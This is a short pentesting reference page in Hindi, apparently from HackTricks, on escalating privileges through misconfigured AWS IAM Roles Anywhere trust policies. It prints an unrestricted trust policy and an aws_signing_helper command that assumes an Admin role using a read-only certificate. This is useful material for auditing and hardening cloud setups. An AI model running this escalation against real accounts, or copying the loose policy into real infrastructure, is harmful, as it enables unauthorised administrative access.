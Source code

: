 # AWS - IAM Roles Anywhere Privesc

{{#include ../../../../banners/hacktricks-training.md}}

AWS IAM RolesAnywhere बाहरी कार्यभार को X.509 प्रमाणपत्रों का उपयोग करके IAM भूमिकाएँ ग्रहण करने की अनुमति देता है। लेकिन जब विश्वास नीतियाँ सही तरीके से सीमित नहीं होती हैं, तो उनका दुरुपयोग किया जा सकता है।

इस नीति में यह निर्धारित करने के लिए कोई प्रतिबंध नहीं है कि कौन सा विश्वास एंकर या प्रमाणपत्र विशेषताएँ अनुमति प्राप्त हैं। परिणामस्वरूप, खाते में किसी भी विश्वास एंकर से जुड़े किसी भी प्रमाणपत्र का उपयोग इस भूमिका को ग्रहण करने के लिए किया जा सकता है।
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
प्रिवेस्क के लिए, `aws_signing_helper` की आवश्यकता है https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html से

फिर एक मान्य प्रमाणपत्र का उपयोग करके, हमलावर उच्च विशेषाधिकार भूमिका में प्रवेश कर सकता है
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
### संदर्भ

- https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation/

{{#include ../../../../banners/hacktricks-training.md}}
